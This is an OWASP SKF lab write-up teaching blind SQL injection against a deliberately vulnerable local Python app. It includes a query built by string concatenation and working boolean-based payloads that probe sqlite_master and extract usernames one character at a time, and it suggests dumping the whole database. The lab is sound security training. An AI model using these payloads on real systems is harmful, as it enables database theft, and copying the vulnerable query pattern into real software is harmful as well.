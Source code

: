 # Python - SQLI (Blind)

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:sqli-blind
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:sqli-blind
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrahack.io !](<../../.gitbook/assets/ing\_primary\_logo (2).png>)

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by pageID and displays the content.

![](../../.gitbook/assets/sqli-blind-1.png)

```
http://localhost:5000/home/1
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](../../.gitbook/assets/sqli-blind-2.png)

```
http://localhost:5000/home/1'
```

However, it's still not possile we can't see this as the application shows a 404 Error page.

### Step3

Now we need to inject logic operators to check if the application is vulnerable to SQL Injection.

First, we inject a logical operator which is true (or 1=1). This should result in the application run as intended without errors.

![](../../.gitbook/assets/sqli-blind-3.png)

```
http://localhost:5000/home/1 OR 1=1
```

After that we inject a logical operator which is false (and 1=2). This should result in the application returning an error.

![](../../.gitbook/assets/sqli-blind-4.png)

```
http://localhost:5000/home/1 AND 1=2--
```

By doing so we are sure the application has a SQL Injection vulnerability.

This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```python
db.execute('SELECT pageId, title, content FROM pages WHERE pageId='+pageId)
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

We need to determine which conditions are TRUE and FALSE for the application. By trial and error it's possible to determine the pageIDs 1,2 and 3 are valid, whereas 4 is not.

![](../../.gitbook/assets/sqli-blind-6.png)

```
http://localhost:5000/home/1
```

![](../../.gitbook/assets/sqli-blind-5.png)

```
http://localhost:5000/home/4
```

#### Step 2

Now, we need to inject a IF condition, returning 1 for the TRUE cases and 4 for the FALSE ones.

![](../../.gitbook/assets/sqli-blind-7.png)

```
http://localhost:5000/home/(select case when 1=1 then 1 else 4 end)
```

#### Step 3

Next step is to add more logic to our injection and starting to retrieve information from data tables. Remember we will never view the data we are retrieving from the DB in the page, but we will do it by logicaly testing if the data exists.

Let's check if the table users exists.

![](../../.gitbook/assets/sqli-blind-9.png)

```
http://localhost:5000/home/(select case when tbl_name='users' then 1 else 4 end from sqlite_master where type='table')
```

Good news! As we didn't see an error, it means the table _users_ exists.

By testing different table names, we will receive an 404 error, indicating the table does not exist.

![](../../.gitbook/assets/sqli-blind-8.png)

### Step 4

From the _user_ table is possible to see that the table contains the columns _UserId_ , _UserName_ and _Password_

![](../../.gitbook/assets/sqli-blind-10.png)

Let's try to extract a valid user. Instead of having a dictionary of possible users to guess, we can check if the first letter of the first user contains the letter _a_.

![](../../.gitbook/assets/sqli-blind-11.png)

```
http://localhost:5000/home/(select case when substr(UserName,1,1)='a' then 1 else 4 end from users limit 0,1)
```

The error indicates it's not the case. Let's try with the letter _A_. Remember, case matters.

![](../../.gitbook/assets/sqli-blind-12.png)

```
http://localhost:5000/home/(select case when substr(UserName,1,1)='A' then 1 else 4 end from users limit 0,1)
```

Yes, it matches!

As initial guess, _Admin_ could be a possible user. So, let's test this theory:

```
http://localhost:5000/home/(select case when substr(UserName,2,1)='d' then 1 else 4 end from users limit 0,1)
```

```
http://localhost:5000/home/(select case when substr(UserName,3,1)='m' then 1 else 4 end from users limit 0,1)
```

```
http://localhost:5000/home/(select case when substr(UserName,4,1)='i' then 1 else 4 end from users limit 0,1)
```

```
http://localhost:5000/home/(select case when substr(UserName,5,1)='n' then 1 else 4 end from users limit 0,1)
```

We made it! None of the requests above returned _404 Error_, so this indicates _Admin_ is a valid value.

Now that you know the logic, you can extract all UserNames stored within this table.

Why not dumping the whole database?

Don't forget to play with Limit numbers to fetch more records.

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

[https://www.owasp.org/index.php/Testing\_for\_SQL\_Injection\_(OTG-INPVAL-005)](https://www.owasp.org/index.php/Testing\_for\_SQL\_Injection\_\(OTG-INPVAL-005\))

SQLite Reference

[https://www.techonthenet.com/sqlite/sys\_tables/index.php](https://www.techonthenet.com/sqlite/sys\_tables/index.php)
